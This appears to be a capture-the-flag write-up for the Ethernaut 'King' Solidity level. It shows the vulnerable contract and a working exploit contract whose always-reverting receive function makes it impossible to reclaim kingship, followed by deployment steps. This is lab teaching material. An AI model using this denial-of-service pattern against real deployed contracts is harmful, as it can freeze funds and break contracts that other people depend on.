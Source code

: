 # King

>The contract below represents a very simple game: whoever sends it an amount of ether that is larger than the current prize becomes the new king. On such an event, the overthrown king gets paid the new prize, making a bit of ether in the process! As ponzi as it gets xD

>When you submit the instance back to the level, the level is going to reclaim kingship. You will beat the level if you can avoid such a self proclamation.
``` solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract King {

  address king;
  uint public prize;
  address public owner;

  constructor() payable {
    owner = msg.sender;  
    king = msg.sender;
    prize = msg.value;
  }

  receive() external payable {
    require(msg.value >= prize || msg.sender == owner);
    payable(king).transfer(msg.value);
    king = msg.sender;
    prize = msg.value;
  }

  function _king() public view returns (address) {
    return king;
  }
}
```

For this challenge, We have to claim kingship in such a way that nobody else can become the king in the future.
For this, we have to send an amount of eth greater than or equal to the balance of the King contract. 
To get this balance, we can run the following command in the browser console.
```javascript
await contract.prize()
```

Now, we write a contract `exploit` which contains a function hack that simply sends a transaction sending the value of prize to the instance of the King contract. However, this only solves the first part of the challenge. The trickier second part is to avoid the reclaimation of kingship.

We must ensure that even though an amount greater than the current prize is sent by the next address, the transfer of funds(prize) must fail so as to remain as king. To do that the key lies in the receive function as it is the one that is called when king contract calls the transfer function.

We do this by introducing a `receive` function that reverts no matter what.
```solidity
contract exploit{
    King king;

    constructor (address payable _king) payable{
        king = King(_king);
    }

    function hack()public {
        (bool done, ) = address(king).call{value : 0.001 ether}("");
        require(done,"failed");
    }

    receive() payable external {
        revert();
    } 
}
```

Next, deploy the above contract along with sending 0.001 ether to the exploit contract. 
Call the hack function and then check the king.
On confirmation, we can submit the instance.

NOTE : The exploit contract must be sent the prize amount at the time of deployment and constructor function thus made payable. This is because once the contract is deployed, any transaction which triggers the receive function reverts.

(The exploit contract can be deployed through remix using Injected Web3 Provider MetaMask.)
